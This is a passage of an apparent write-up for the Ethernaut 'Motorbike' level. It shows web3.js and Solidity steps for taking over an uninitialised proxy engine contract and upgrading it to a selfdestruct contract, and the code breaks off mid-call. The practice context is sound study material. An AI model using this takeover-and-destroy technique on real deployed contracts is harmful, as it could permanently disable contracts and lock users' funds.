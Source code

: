 ```
    from: player,
    data: smbData
})
```

## 25. Motorbike

Nowadays, using a proxy is quite a common pattern but if you don't understand what you are doing, it can lead to very disasterous consequences. This level is an example of what happened with [parity wallet](https://www.parity.io/blog/a-postmortem-on-the-parity-multi-sig-library-self-destruct/).

We want to destroy the Motorbike but within the motorbike contract, there isn't any `selfdestruct` calls. Instead of attacking the Motorbike contract, why don't we attack the engine contract? Motorbike relies on the engine contract for its logic so if we can destroy the engine contract, the Motorbike is rendered useless.

Let's interact directly with the engine contract and gain ownership of it. Once we're made the upgrader, we can easily upgrade the engine logic to a malicious contract and call `selfdestruct`.

```
// Get the engine contract address
implAddr = await web3.eth.getStorageAt(instance, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc')

implAddr = '0x' + implAddr.slice(26)

// Call `initialize()` to become the upgrader
data = web3.eth.abi.encodeFunctionSignature("initialize()")
await web3.eth.sendTransaction({
    from: player,
    to: implAddr,
    data: data
})

// Check that you are the upgrader
// data = web3.eth.abi.encodeFunctionSignature("upgrader()")
// await web3.eth.call({
//     to: implAddr,
//     data: data
//     })

// Create a bad contract and deploy it
pragma solidity ^0.8.0;

contract Kaboom {
    function explode() public {
        selfdestruct(payable(0));
    }
}

badContractAddr = "<insert bad contract address here>"

// create the payload to be called
data = web3.eth.abi.encodeFunctionSignature("explode()")

upgradeToAndCallData = web3.eth.abi.encodeFunctionCall({
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [{
        type: 'address',
        name: 'newImplementation'
    }, {
        type: 'bytes',
        name: 'data'
```
